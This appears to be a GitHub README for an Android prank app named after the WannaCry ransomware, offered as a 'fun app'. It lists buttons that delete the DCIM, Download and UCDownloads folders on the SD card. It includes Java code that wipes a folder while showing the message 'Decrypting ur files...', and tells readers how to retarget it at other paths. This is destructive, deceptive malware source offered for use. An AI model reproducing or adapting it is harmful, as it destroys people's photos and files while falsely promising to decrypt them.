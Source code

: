 WanaDecrypt0r Android
#####################

__Application Info :__

App Name : wanaDecrypt0r android

Developer : Wahyu Hidayat

----

__What is wanaDecrypt0r android ?__

wanaDecrypt0r android is a fun app with simple command to remove some folder on sdcard.

----

__What main funchtion of this app ?__

This is a main funchtion of wanaDecrypt0r android :

```
Back Pressed = Delete DCIM folder on sdcard
Pay btn pressed = Delete Download folder on sdcard
Decrypt btn pressed = Delete UCDownloads folder
```

You can change the folder what should deleted with edit the MainActivity.java of this source app example :

```
	// Decrypt button action
   // Change UCDownload folder if want to change path deleted
	public void dec(View v){
		File dec=new File(android.os.Environment.getExternalStorageDirectory()+"/UCDownloads");
		if (dec.isDirectory()){
			String [] childern = dec.list();
			for (int i=0;i<childern.length;i++){
				new File(dec, childern[i]).delete();
			}
		}
		dec.delete();
		Snackbar.make(findViewById(R.id.dec),"Decrypting ur files...",Snackbar.LENGTH_LONG).show();
	}
```

----

__Screenshots :__

![alt](ss1.png)

![alt](ss2.png)
